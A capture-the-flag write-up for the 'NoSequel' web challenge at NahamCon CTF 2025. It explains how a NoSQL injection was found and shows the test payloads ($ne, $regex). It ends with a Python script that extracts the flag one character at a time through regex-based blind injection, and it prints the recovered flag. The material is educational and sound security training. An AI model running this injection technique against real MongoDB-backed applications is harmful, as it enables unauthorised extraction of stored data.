 ```yaml
---
name: NoSequel (2025)
event: NahamCon CTF 2025
category: Web
description: Writeup for NoSequel (Web) - NahamCon CTF (2025) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# NoSequel

## Description

> It always struck me as odd that none of these movies ever got sequels! Absolute cinema.

## Solution

Challenge name suggests we should focus on NoSQL injection 🤔

![](images/0.png)

It even gives us an example! We can check the [Portswigger labs](https://portswigger.net/web-security/nosql-injection) on this topic for some exploitation ideas, [hacktricks](https://book.hacktricks.wiki/en/pentesting-web/nosql-injection.html) for some quick payloads.

When sending:


```json
query={"$ne":null}&collection=movies
```


The server responds `unknown top level operator: $ne`

If we try and search the `flags` collection, it says `Only regex on 'flag' field is supported`

I tried to change the content-type to JSON and use some different payloads. We also want to test a search query that returns results, e.g. by using a movie title from the homepage. Doing this will give us a "true" condition that we could use to compare results later, if we need to extract the flag char by char.

![](images/1.PNG)

When I try to enter `[$regex]=.{25}` as search query for the `flags` collection, it warns me to use a JSON format.

![](images/2.PNG)

Using that format, we apply a regular expression to see if the flag begins with `flag`.


```
flag: {$regex: ^flag}
```


![](images/3.PNG)

It does! So we can just write a python script to loop through all possible hex chars, since we know the flag format from previous challenges; `flag{[0-9a-f]{32}}`.

I just finished a 72 hour OSWE exam which required automating exploit chains into a 1-click-pwn script _without_ help from an LLM. Since that is finished, I'll make life easier for myself 😁


```python
import requests
import string

# Config
url = "http://challenge.nahamcon.com:31786/search"
charset = "0123456789abcdef"
flag_prefix = "flag{"
flag = flag_prefix
headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}

def test_candidate(candidate):
    payload = {
        "query": f'flag: {{$regex: ^{candidate}}}',
        "collection": "flags"
    }
    response = requests.post(url, data=payload, headers=headers)
    return "Pattern matched" in response.text

while not flag.endswith("}"):
    found = False
    for ch in charset:
        attempt = flag + ch
        print(f"[?] Trying: {attempt}")
        if test_candidate(attempt):
            print(f"[+] Match: {attempt}")
            flag += ch
            found = True
            break
    if not found:
        print("[-] No match found. Trying closing brace '}'...")
        if test_candidate(flag + "}"):
            flag += "}"
            print(f"[✓] Flag complete: {flag}")
            break
        else:
            print("[-] Could not extend flag — possibly an error.")
            break

print(f"[🏁] Final flag: {flag}")
```


It works, we get the flag 😎

![](images/4.PNG)

Flag: `flag{4cb8649d9ecb0ec59d1784263602e686}`
